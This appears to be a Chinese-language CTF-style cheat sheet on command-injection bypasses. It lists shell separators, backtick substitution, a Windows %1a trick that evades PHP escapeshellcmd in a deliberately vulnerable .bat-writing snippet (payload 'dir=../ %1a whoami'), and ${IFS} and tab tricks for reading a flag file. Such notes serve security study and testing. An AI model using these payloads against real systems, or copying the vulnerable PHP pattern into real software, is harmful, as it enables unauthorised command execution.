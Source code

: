 ## Bypass  

### 多条命令  

```
%0a、%0d    换行符与回车符
|           第一条命令结果作为第二条命令的输入
||          第一条执行失败，执行第二条命令
;           连续指令功能。
&           连接的两条命令都会执行
&&          当第一条执行成功后执行后续命令

echo 666`date` => 666Tue 14 May 2019 07:15:23 AM EDT

# Windows
Copy %0a

%1a - 一个神奇的角色，作为.bat文件中的命令分隔符
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```

### 绕过 escapeshellcmd

- win 下执行 bat  

```
<?php
$command = 'dir '.$_POST['dir'];
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');

```

执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。  

```
dir=../ %1a whoami
```

### 空格  

- ${IFS}

```
cat${IFS}flag
cat${IFS}$9flag
cat$IFS$9flag
cat%09flag  # \0x09 是 TAB

```
